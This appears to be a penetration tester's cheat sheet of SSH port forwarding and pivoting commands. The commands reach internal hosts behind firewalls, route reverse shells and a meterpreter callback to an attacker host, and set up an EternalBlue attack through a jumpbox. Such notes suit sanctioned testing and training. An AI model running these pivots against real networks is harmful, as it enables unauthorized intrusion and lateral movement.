 ```sh
## Local Forwarding ###################################
# SSH local port forward from DMZ box to reach internal_server_ip:port via jumpbox_ip
ssh jumper@jumpbox_ip -p 2222 -L 0.0.0.0:4445:internal_server_ip:445
# Now `smbclient //DMZ_IP -p 4445 -N -L` on kali will let us list the SMB shares of
# internal_server_ip, which is only reachable from jumpbox_ip

# SSH local port forward to send traffic from our local port 8080 to victim's
# port 80 (to get around firewall restrictions that don't allow remote
# connections to that port, but allow us to ssh in)
ssh victim@$VICTIM_IP -L 8080:localhost:80
# Now `curl localhost:8080` will fetch $VICTIM_IP:80 which is not reachable
# from the outside


## Remote Forwarding #################################
# forward traffic to redirector's port 80 to your local listener on port 8080
ssh jumper@jumpbox_ip -gR 0.0.0.0:80:localhost:8080
# now reverse shells pointed to the jumpbox_ip:80 will hit your local listener

# Connecting from jumpbox->attacker to give attacker access to
# internal_server_ip:445
ssh attacker@attacker_ip -gR 4445:internal_server_ip:445
# Now `smbclient localhost -p 4445 -N -L` will let us list the SMB shares of
# internal_server_ip, which is only reachable from jumpbox_ip, getting around
# firewall rules that also prevent inbound ssh connections


## Complex example: Throwing Eternal Blue through firewall ##################################
# Local forward to victim's SMB & WinRPC ports, remote forward meterpreter callback to attacker
ssh jumper@jumpbox_ip -L 4450:victim_ip:445 -L 135:victim_ip:135 \
-R 4444:localhost:4444
# The -L 135:victim_ip:135 port forward is optional. If you do not want to use it, you will have to set VerifyArch to false in metasploit.


## Dynamic forwarding (SOCKS4/5) #######################
# dynamic port forward to create a SOCKS proxy to visit any_internal_server_ip, which is only reachable from jumpbox
ssh jumper@jumpbox_ip -p 2222 -D 1080
# Next config /etc/proxychains4.conf: socks5 localhost 1080
# Then: proxychains curl http://any_internal_server_ip/
# curl, nmap, wfuzz and some versions of netcat natively support SOCKS proxies.
# Look at their help to see how to use the feature.
# e.g.
curl -x socks5://127.0.0.1:1080 http://www.lolcats.com
# You can also set up firefox to browse through SOCKS proxy through GUI settings


## Remote Dynamic forwarding (SOCKS4/5) ################################
# Connecting from jumpbox -> attacker, open SOCKS proxy on
# attacker that forwards traffic to internal net. Useful
# when firewall blocking inbound traffic, but allows ssh out.
# OpenSSH _client_ needs to be version 7.6 or above to use.
ssh -R 1080 attacker@attacker_ip


## ProxyJump ########################################
# ProxyJump lets you nest ssh connections to reach remote internal networks/hosts
# Here we chain ssh connections like so: jumpbox1_ip -> jumpbox2_ip -> internal_host,
# where internal_host is only reachable from jumbpox2, and jumpbox2 is only reachable from jumpbox1
ssh -J jumper@jumpbox1_ip:2221,jumper2@jumbox2_ip:2222 remoteuser@internal_host

```